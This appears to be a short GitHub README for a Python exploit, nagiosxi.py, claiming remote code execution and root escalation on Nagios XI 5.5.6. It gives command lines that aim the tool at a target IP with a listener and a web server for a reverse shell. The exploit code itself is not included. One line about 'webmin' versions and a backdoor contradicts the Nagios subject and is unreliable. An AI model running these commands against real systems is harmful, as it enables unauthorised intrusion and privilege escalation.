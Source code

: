 # Nagios XI 5.5.6 Remote Code Execution and Privilege Escalation

```
1.  Nagios XI 5.5.6
```

## Explanation of the exploit
https://medium.com/tenable-techblog/rooting-nagios-via-outdated-libraries-bb79427172

### Script Usage:
#### Tested on v1.890, but should also work for other webmin versions in which this backdoor is installed.
`python3 nagiosxi.py -h`
![](https://github.com/ruthvikvegunta/nagiosxi_rce-to-root/blob/master/images/help.png)

`python3 nagiosxi.py -t https://10.10.10.10 -lh 172.16.1.2 -lp 7777 -wh 172.16.1.2 -wp 8888`

![](https://github.com/ruthvikvegunta/nagiosxi_rce-to-root/blob/master/images/root.png)

`python3 nagiosxi.py -t https://10.10.10.10 -lh 172.16.1.2 -lp 7777 -wh 172.16.1.2 -wp 8888 -shell low`

![](https://github.com/ruthvikvegunta/nagiosxi_rce-to-root/blob/master/images/low_priv.png)
